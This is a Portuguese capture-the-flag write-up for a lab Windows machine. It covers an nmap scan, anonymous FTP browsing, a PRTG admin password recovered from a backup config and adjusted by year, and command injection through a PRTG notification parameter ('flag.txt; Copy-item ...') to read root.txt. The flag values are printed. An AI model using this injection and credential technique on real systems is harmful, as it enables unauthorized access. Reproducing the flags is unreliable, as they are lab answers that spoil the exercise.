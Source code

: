 1. Usar nmap para escanear portas e encontrar possíveis fragilidades

```
$ nmap 10.10.10.152

Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-10 10:43 -03
Nmap scan report for 10.10.10.152
Host is up (0.11s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
**21/tcp   open  ftp**
80/tcp   open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
```

2. A porta 21, do protocolo FTP (para transferência de arquivos), está aberta. Isso significa que podemos conectar como anônimos e começar uma busca pelos diretórios
```
$ lftp Anonymous@10.10.10.152

$lftp> ls                
02-03-19  12:18AM                           1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows

$lftp> cd Users/
$lftp> ls

02-25-19  11:44PM       <DIR>          Administrator
04-11-19  11:27AM       <DIR>          Public

$lftp> cd Public/
$lftp> ls

02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
04-11-19  11:28AM                           90 tester.txt
**02-03-19  12:35AM                           33 user.txt**
07-16-16  09:18AM       <DIR>          Videos
```

3. Apenas andando pelos diretórios conseguimos encontrar a **primeira flag**, no arquivo _user.txt_, que nos concede acesso de usuário

```
$lftp> cat user.txt
**dd58ce67b49e15105e88096c8d9255a5**        
33 bytes transferred
```

4. Continuando a busca, encontramos arquivos de backup (.old e .bak)

```
$lftp> ls -a

11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
04-29-19  09:46AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows

$lftp> cd ProgramData/Paessler/PRTG\ Network\ Monitor
$lftp> ls -a

02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
04-29-19  09:47AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
04-29-19  09:47AM       <DIR>          Logs (Web Server)
04-29-19  09:52AM       <DIR>          Monitoring Database
04-29-19  10:00AM              1214224 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
04-29-19  09:48AM              1647616 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```

5. A análise desses arquivos revela um usuário e uma senha de admin 

```
$lftp> cat PRTG\ Configuration.old.bak
...
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
...
```

6. A porta http (80) aberta mostrada no escaneamento do IP, dá indicios de que teremos um site para analisar. No site, tentamos as credenciais:

**Username: prtgadmin   
Password: PrTg@dmin2018**

E ganhamos acesso negado. Mas vale lembrar que aquilo era um arquivo de backup, então talvez a seja atual tenha mais a ver com o ano atual:

Username: prtgadmin
Password: PrTg@dmin2019

7. Com o login de administrador aceito, vamos tentar executar um programa no servidor a partir da central de notificações do site:

Setup -> Notifications -> Edit Notifications -> Execute Program 

Run command in powershell:
* Demo exe notification - outfile.ps1

No parâmetro, colocaremos um código para copiar o arquivo _root.txt_ do diretório _Administrator_ que não possuimos acesso quando entramos como anônimos no FTP para um diretório no qual possuímos acesso:

* Parameter:
```
flag.txt; Copy-item "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\Users\Public\flag.txt" -Recurse
```
* Execute Notification

8. Voltando ao terminal e nos conectando a partir do FTP, podemos ir até o diretório para onde mandamos o arquivo copiado:
```
$lftp> Users/Public
$lftp> cat flag.txt
**3018977fb944bf1878f75b879fba67cc**
```
E teremos acesso também a **segunda flag**, do arquivo _root.txt_
